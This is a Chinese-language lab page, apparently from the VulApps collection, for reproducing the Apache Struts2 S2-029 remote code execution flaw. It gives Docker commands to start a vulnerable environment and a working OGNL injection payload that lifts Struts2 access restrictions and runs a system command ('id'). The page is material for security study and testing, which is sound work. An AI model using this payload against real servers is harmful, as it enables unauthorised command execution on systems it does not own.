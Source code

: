 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-029)"
date: 2017-06-13 18:44:00 +0800
image: '/assets/img/'
description: 'Struts2 远程代码执行漏洞(S2-029)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-029)环境'
introduction: 'Struts2 远程代码执行漏洞(S2-029)环境'
---
```


### 漏洞信息

 * [S2-029 公告](http://struts.apache.org/docs/s2-029.html)
 
 详细参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-029
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-029
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行

```
(%23_memberAccess['allowPrivateAccess']=true,%23_memberAccess['allowProtectedAccess']=true,%23_memberAccess['excludedPackageNamePatterns']=%23_memberAccess['acceptProperties'],%23_memberAccess['excludedClasses']=%23_memberAccess['acceptProperties'],%23_memberAccess['allowPackageProtectedAccess']=true,%23_memberAccess['allowStaticMethodAccess']=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()))
```

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-029/s2-029-1.png)

### 其它

感谢 [@zerokeeper](https://github.com/zerokeeper) 贡献
